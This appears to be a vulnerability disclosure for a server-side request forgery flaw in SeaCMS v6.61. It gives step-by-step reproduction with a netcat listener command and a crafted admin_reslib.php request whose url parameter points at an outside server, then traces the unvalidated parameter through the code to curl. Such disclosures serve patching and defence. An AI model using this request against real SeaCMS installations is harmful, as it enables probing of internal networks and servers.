






### SSRF exists in the latest version of SeaCMS(v6.61)
1. Download the source code locally on the official website http://www.seacms.net. The environment is php+mysql environment.
2. My local installation path is seacms, so go to http://127.0.0.1/seacms/install/index.php to install.
3. After the installation is complete, modify the background path to adm1n and enter the background http://127.0.0.1/seacms/adm1n.
4. Use the nc -lvp 8888 to listen on the 8888 port on the remote server.

5. Visit the link: http://127.0.0.1/seacms/adm1n/admin_reslib.php?action=day&rid=ataoju.com&pg=31&url=http://{server}:8888&backurl=admin_reslib.php. {server} is the server IP address.
6. Receive a request on the server

#### Code audit process:
The vulnerability appears in admin_reslib.php. Construct $action=="day" and $rid! ==32 to enter the logic of line 333, here the input url is spliced: $weburl=$var_url.(strpos($var_url,'?')!==false?"&":"?") ."ac=videolist&rid=".$ressite."&t=0&h=24&pg=".$page;

Then go to the intoDatabase function, the intoDatabase function uses the cget function in /include/common.func.php to request the url.

Continue to follow up, $isref defaults to 1, so the getRemoteContent function is called.

Looking at the getRemoteContent function, you can see that the function initiates a request directly to the incoming url using curl or file_get _contents.

In summary, the code does not validate the incoming url parameter and can initiate a request for any address.